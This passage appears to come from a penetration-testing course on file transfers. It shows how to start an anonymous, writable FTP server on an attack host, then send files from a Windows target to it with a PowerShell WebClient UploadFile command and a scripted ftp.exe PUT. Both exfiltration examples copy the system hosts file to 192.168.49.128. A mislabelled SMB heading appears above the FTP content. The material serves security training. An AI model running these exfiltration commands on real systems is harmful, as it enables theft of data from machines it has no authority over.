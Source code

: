 ## FTP Uploads

Uploading files using FTP is very similar to downloading files. We can use PowerShell or the FTP client to complete the operation. Before we start our FTP Server using the Python module `pyftpdlib`, we need to specify the option `--write` to allow clients to upload files to our attack host.

Uploading Files using SMB

```shell-session
glack@htb[/htb]$ sudo python3 -m pyftpdlib --port 21 --write

/usr/local/lib/python3.9/dist-packages/pyftpdlib/authorizers.py:243: RuntimeWarning: write permissions assigned to anonymous user.
  warnings.warn("write permissions assigned to anonymous user.",
[I 2022-05-18 10:33:31] concurrency model: async
[I 2022-05-18 10:33:31] masquerade (NAT) address: None
[I 2022-05-18 10:33:31] passive ports: None
[I 2022-05-18 10:33:31] >>> starting FTP server on 0.0.0.0:21, pid=5155 <<<
```

Now let's use the PowerShell upload function to upload a file to our FTP Server.

#### PowerShell Upload File

PowerShell Upload File

```powershell-session
PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```

#### Create a Command File for the FTP Client to Upload a File

Create a Command File for the FTP Client to Upload a File

```cmd-session
C:\htb> echo open 192.168.49.128 > ftpcommand.txt
C:\htb> echo USER anonymous >> ftpcommand.txt
C:\htb> echo binary >> ftpcommand.txt
C:\htb> echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
C:\htb> echo bye >> ftpcommand.txt
C:\htb> ftp -v -n -s:ftpcommand.txt
ftp> open 192.168.49.128

Log in with USER and PASS first.


ftp> USER anonymous
ftp> PUT c:\windows\system32\drivers\etc\hosts
ftp> bye
```

---